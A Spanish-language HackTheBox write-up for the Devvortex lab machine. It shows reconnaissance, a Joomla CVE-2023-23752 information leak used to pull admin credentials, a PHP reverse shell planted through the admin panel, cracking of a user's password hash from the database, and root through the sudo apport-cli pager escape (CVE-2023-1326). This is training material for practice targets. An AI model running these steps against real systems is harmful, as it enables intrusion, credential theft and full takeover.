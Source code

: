 ```yaml
---
title: Devvortex HTB Writeup
published: 2024-02-12
description: 'Encontramos un Joomla vulnerable a CVE-2023-23752, esto nos permite ver Credenciales de administrator.'
image: 'image.png'
tags: [Easy, Linux]
category: 'HackTheBox'
draft: false 
---
```


# Initial Recon

Comenzamos nuestro escaneo con nmap:

```bash
> sudo nmap 10.10.11.242 -sS --open --min-rate 3000 -p- -n -Pn -oN Nmapscan

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
> nmap -p22,80 -sVC 10.10.11.242 -Pn -oN versionScan

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

sólo tenemos 2 puertos abiertos, así que echemos un vistazo a la página web

# Web

![alt text](image-1.png)

Después de buscar en toda la web, fuzz subdominios:

```bash
> gobuster vhost -u http://devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt

Found: dev.devvortex.htb (Status: 200) [Size: 23221
```

encontramos otra página web:

![alt text](image-2.png)

![alt text](image-3.png)

Viendo las tecnologías de la web, intentamos hacer fuzzing para encontrar el panel de login de joomla.

```bash
> gobuster dir -u http://dev.devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt

/robots.txt           (Status: 200) [Size: 764]
/README.txt           (Status: 200) [Size: 764]
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]          
/api/experiments      (Status: 406) [Size: 29]                                               
/api/experiments/configurations (Status: 406) [Size: 29]                                     
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
```

en el README.txt vemos lo siguiente:

http://dev.devvortex.htb/README.txt

![alt text](image-4.png)

Esta es la versión, busquemos vulnerabilidades o exploits.

Busca: Joomla 4.2 exploit

## CVE-2023-23752 - Exploit

Encontramos un exploit: [Exploit DB - CVE-2023-23752](https://www.exploit-db.com/exploits/51334)

Descargamos el exploit e instalamos las librerías necesarias

![alt text](image-5.png)

```bash
> sudo gem install docopt httpx json paint
```

Al ejecutar el exploit tenemos los siguientes resultados:

```bash
ruby exploit.rb http://dev.devvortex.htb
```

![alt text](image-6.png)

## CVE-2023-23752 - Manual

Ejecutaremos la misma vulnerabilidad, pero manualmente, para entenderlo mejor:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#api-unauthenticated-information-disclosure

```bash
curl -s 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true' | ./jq-linux-amd64 | grep -E 'user|password'
```

También encontramos información que podría sernos útil en el mismo archivo

![alt text](image-7.png)

## CVE-2023-23752 - My Script

También he creado un script para esto, así que tienes más opciones: https://github.com/mil4ne/CVE-2023-23752-Joomla-v4.2.8/

Con estas credenciales intentamos entrar en el panel de Joomla.

## Get shell

![alt text](image-8.png)

una vez dentro, vamos a la sección system.

Ahora solo tenemos que editar uno de los archivos de la web o del panel y ponerles php revshell, usaremos este:

![alt text](image-9.png)

Accedemos al fichero que hemos editado, para recibir el shell a nuestro puerto de escucha

```bash
nc -nlvp 9001              
listening on [any] 9001 ...
connect to [10.10.14.145] from (UNKNOWN) [10.10.11.242] 41690
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:47:51 up  4:52,  0 users,  load average: 0.57, 0.34, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(w ww-data) gid=33(www-data) groups=33(www-data)
```

# Lateral Movement

## Mysql Database

Previamente habíamos visto que existía una base de datos mysql, así que intentamos conectarnos:

```bash
> mysql -u lewis -p 
```

```bash
show databases;
```

```bash
use joomla;
```

```bash
show tables;
```

```bash
select * from sd4fg_users
```

Después de mirar todo el contenido de la base de datos, encontramos el siguiente hash del usuario logan:

```bash
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

## Crack Hash
Identificamos el hash y crackeamos con john

![alt text](image-10.png)

pasamos al usuario logan

```bash
> su logan
```

# Privilege Escalation

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

## CVE-2023–1326 - Privilege Escalation - apport-cli 2.26.0

En esta parte voy a mostrarte 2 formas de escalar privilegios:

    > apport-cli Escalada de Privilegios

    > creamos un archivo sh y lo ejecutamos con el apport-cli

```bash
logan@devvortex:/tmp$ echo 'Hello apport-cli' > exp.sh
logan@devvortex:/tmp$ chmod +x exp.sh
logan@devvortex:/tmp$ sudo apport-cli -c exp.sh less
```

Seleccionamos V para la opción de ver informe y cuando diga ’:’, insertamos el shell !/bin/bash

```bash
What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
<HERE YOU GET "less" command output type "!/bin/bash">
```

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```